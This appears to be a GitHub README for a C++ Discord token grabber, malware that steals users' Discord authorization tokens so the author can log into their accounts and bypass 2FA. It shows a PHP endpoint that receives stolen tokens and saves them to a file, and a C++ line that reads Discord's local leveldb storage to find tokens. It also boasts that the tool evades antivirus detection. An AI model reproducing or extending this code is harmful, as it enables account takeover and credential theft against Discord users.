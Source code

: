 # Discord Token Grabber
A Discord token grabber written in C++.

This is a "token" or authorization key finder for the platform "Discord".

You can use "tokens" to login to other people's accounts with the authorization key bypassing 2fa.

# Web
The web code is very basic and can be accessed by anyone so I would recommend changing it.
```php
<?php

$file = fopen("tokens.txt", "w");
if(isset($_GET["t"])){
	fwrite($file, $_GET["t"]);
}

?>
```

# Client
This code is not very well written as I'm using C++/14 and filesystem is still experimental.
As you can see here it's a hardcoded solution but it works fine for this purpose.
```cpp
auto files = split(exec("cd %appdata%/discord/Local Storage/leveldb && dir /n /b *"), "\n");
```

# Detection
Since it's fresh and not copied it is currently undetected
[Detection](https://antiscan.me/images/result/huIT9opQ9Off.png)
